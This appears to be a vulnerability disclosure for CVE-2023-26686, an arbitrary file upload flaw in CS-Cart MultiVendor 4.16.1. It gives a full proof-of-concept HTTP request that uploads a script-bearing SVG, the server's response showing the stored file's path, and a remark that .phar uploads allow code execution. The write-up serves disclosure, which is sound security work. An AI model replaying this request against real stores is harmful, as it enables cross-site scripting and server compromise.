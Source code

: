 # CVE-2023-26686 - File Upload vulnerability in product image of CS-Cart MultiVendor 4.16.1
This vulnerability allows an attacker to upload arbitrary files to the server by exploiting the “Image Upload” functionality provided by the website. It was possible to upload files with malicious payloads, such as “.html”, “.phar” and “.svg”, which could be used to deliver further attacks such as Remote Code Execution or Cross Site Scripting.

## Testing Environment
We used a default installation with example data of "CS-Cart MultiVendor 4.16.1" using the .zip file obtained from the official site on a fully patched Ubuntu Sever 22.04(php 8.1.2, Apache/2.4.52).

To exploit the vulnerability a "vendor" account or an "admin" account is needed. Just find a place where you can upload a product image, like the "Product bundles" below.

<img src="cs-cart-fupload-1.png">

To upload a ".svg"' the image we have done the following request:

```
POST /vendor.php?dispatch=image.upload HTTP/1.1
Host: 172.16.85.150
Content-Length: 798
Accept: application/json
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywBE2ljDWt7QelOR0
Origin: http://172.16.85.150
Referer: http://172.16.85.150/vendor.php?dispatch=products.update&product_id=148
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: klaro=%7B%22paypal%22%3Atrue%2C%22facebook%22%3Atrue%2C%22pinterest%22%3Atrue%2C%22twitter%22%3Atrue%2C%22yandex%22%3Atrue%2C%22google_maps%22%3Atrue%7D; sid_vendor_179e8=1e7e0c2cf02445ef05a097ceac9c963d-A; sid_admin_179e8=25d214380d86c5cbb48c7c01e53fe6ff-A; sid_customer_179e8=837bc467ac15ad1d1843107245d0744c-C
Connection: close

------WebKitFormBoundarywBE2ljDWt7QelOR0
Content-Disposition: form-data; name="is_ajax"

1
------WebKitFormBoundarywBE2ljDWt7QelOR0
Content-Disposition: form-data; name="security_hash"

eec209847ff6336e0ee148fa1ecd56bf
------WebKitFormBoundarywBE2ljDWt7QelOR0
Content-Disposition: form-data; name="file[]"; filename="evil.jpg.svg"
Content-Type: image/jpg

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(666);
   </script>
</svg>"this

------WebKitFormBoundarywBE2ljDWt7QelOR0—
```

We received the response containing the uploaded filename and it's location.
```
HTTP/1.1 200 OK
Date: Wed, 01 Feb 2023 08:59:44 GMT
Server: Apache/2.4.52 (Ubuntu)
X-Frame-Options: SAMEORIGIN
Set-Cookie: sid_vendor_179e8=1e7e0c2cf02445ef05a097ceac9c963d-A; expires=Wed, 15-Feb-2023 08:59:44 GMT; Max-Age=1209600; path=/; HttpOnly; SameSite=lax
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Security-Policy: frame-ancestors 'self';
Content-Length: 158
Connection: close
Content-Type: application/json; charset=utf-8

{"local_data":{"name":"evil.jpg.svg","full_path":"evil.jpg.svg","type":"image\/jpg","path":"sess_data\/evil.jpg.svg","error":0,"size":384},"notifications":[]}
```

<img src="cs-cart-fupload-2.png">

Furthermore, the upload of ".php" files was not permitted; however, the upload of alternative file formats that enable code execution, such as ".phar" files, was allowed.

<img src="cs-cart-fupload-3.png">
